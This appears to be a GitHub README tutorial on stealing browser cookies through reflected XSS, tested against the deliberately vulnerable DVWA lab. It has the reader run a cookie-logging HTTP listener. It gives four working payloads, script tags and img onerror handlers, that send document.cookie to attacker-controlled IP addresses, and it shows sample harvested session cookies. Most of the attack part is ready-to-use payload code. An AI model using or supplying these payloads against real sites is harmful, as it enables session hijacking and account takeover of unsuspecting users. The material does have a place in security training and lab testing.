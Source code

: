 # Steal Cookies with Reflected XSS

This is a basic Reflected XSS attack to steal cookies from a user of a vulnerable website. The attack string comes from Ch. 12, p. 436 of [The Web Application Hacker's Handbook, 2nd Ed.][3]

This was tested against the [Damn Vulnerable Web Application][5] (DVWA) v1.8. DVWA can be installed alone or as part of the excellent [OWASP Broken Web Applications Project][6] (BWA) v1.2.



### Assumptions:
1. You've already identified website (and field or parameter) that is vulnerable to Reflected XSS.
1. You're able to run shell commands on a Linux system that is reachable by the vulnerable web app. You'll probably need to run the Python script (mentioned below) as root or prepended with `sudo`.

## Run the Cookie Stealer Python Script

You'll need a place to capture the stolen cookies. [lnxg33k][1] has written an excellent Python script called [XSS-cookie-stealer.py][2]. Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.

```shell
python XSS-cookie-stealer.py
```

The resulting output, at minimum, will be this:

```shell
Started http server

```

You're not there yet. Now you have to launch the actual attack. Below are a couple of choices.

## Inject the XSS Attack Code
Below are four versions of the same attack.

### 1. `alert()` Before Stealing the Cookie
Run this version of the attack code if you want to see the cookie in a JS `alert()` as confirmation that the injection is successfully exploiting the vulnerability on the target site. Note that the cookie will not upload to your Python listener until the victim closes the JS `alert()` dialog.

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>
```

### 2. Silent One-Liner
This one is the same but no `alert()` and all on one line.

```js
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### 3. `<img>` Tag Instead of `<script>` Tags
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log:
```html
<img src=x onerror=this.src='http://10.12.66.225/?'+document.cookie;>
```

### 4. `<img>` Tag and Without the Infinite Loop
This one works and will only steal the cookie once. I adapted it from a posting on the old [kirupa.com][4] forum.
```html
<img src=x onerror="this.src='http://10.12.66.225/?'+document.cookie; this.removeAttribute('onerror');">
```

## Harvest the Stolen Cookies
If you successfully get inject your cookie-stealing XSS script into a vulnerable website, and the script is subsequently executed in a victim's browser, you'll see a cookie appear in the STDOUT of the shell running the Python script:

```shell
2017-02-09 10:05 PM - 192.168.0.254	Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:51.0) Gecko/20100101 Firefox/51.0
------------------------------------------------------------------------------------------------------------------
Cookie Name			Value
------------------------------------------------------------------------------------------------------------------
acopendivids			['swingset,jotto,phpbb2,redmine']
security			['low']
acgroupswithpersist			['nada']
PHPSESSID			['93l9ahf1120bkp79t5ehbkc0m4']
```


[1]: https://github.com/lnxg33k
[2]: https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
[3]: http://www.wiley.com/WileyCDA/WileyTitle/productCd-1118026470.html
[4]: https://www.kirupa.com/forum/showthread.php?377664-onerror-within-the-img-tag
[5]: http://www.dvwa.co.uk/
[6]: http://www.owaspbwa.org/